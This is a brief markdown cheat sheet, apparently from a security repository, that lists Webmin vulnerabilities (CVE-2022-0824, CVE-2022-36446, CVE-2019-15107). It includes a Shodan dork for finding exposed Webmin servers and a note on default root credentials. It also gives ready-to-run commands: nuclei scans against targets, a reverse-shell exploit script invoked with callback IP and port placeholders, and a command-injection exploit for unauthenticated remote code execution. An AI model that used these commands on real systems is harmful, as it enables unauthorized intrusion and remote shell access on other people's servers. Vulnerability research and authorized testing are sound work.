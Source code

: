# Webmin CVE
a Curated list of Webmin vulnerability.

## Shodan Dork
```
http.html:"webmin"
```

## default credential
root:unix_root_password
You should be able to login as root, using the same password as the root Unix user on your Linux system. However, if you change the Unix root password in future the Webmin root user will not change. This is because the package install just copies the current password from the /etc/shadow file.

## installing url
```
 http://_your-systems-hostname_:10000/
```


## CVE-2022-0824
Improper Access Control to Remote Code Execution in GitHub repository webmin/webmin prior to 1.990.
Webmin 1.984 and below - File Manager privilege exploit (CVE-2022-0824 and CVE-2022-0829)
Less privileged Webmin users who do not have any File Manager module restrictions configured can access files with root privileges, if using the default Authentic theme


```
nuclei -u target.com:1000 -t CVE-2022-0824.yaml -v -V username=username -V password=password

python3 Webmin-revshell.py -t [TARGET] -c [CREDENTIAL] -LS [PY3HTTP_SERVER] -L [CALLBACK_IP] -P [CALLBACK_PORT]
```



## CVE-2022-36446
software/apt-lib.pl in Webmin before 1.997 lacks HTML escaping for a UI command.

```
nuclei -u target.com:1000 -t CVE-2022-36446.yaml -v -V username=username -V password=password
```


## CVE-2019-15107
An issue was discovered in Webmin <=1.920. The parameter old in password_change.cgi contains a command injection vulnerability.

```
python2 CVE_2019_15107.py https://target-ip:10000 cmd

```



## references
* [CVE-2022-0824](https://nvd.nist.gov/vuln/detail/cve-2022-0824)
* [installing webmin](https://doxfer.webmin.com/Webmin/Installing_Webmin)
* [Webmin Security Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-358/Webmin.html)
* [CVE-2022-36446](https://www.tenable.com/cve/CVE-2022-36446)
* [CVE-2019-15107 Webmin RCE <=1.920 (unauthorized)](https://github.com/jas502n/CVE-2019-15107)
* [Webmin-CVE-2022-0824-revshell](https://github.com/faisalfs10x/Webmin-CVE-2022-0824-revshell)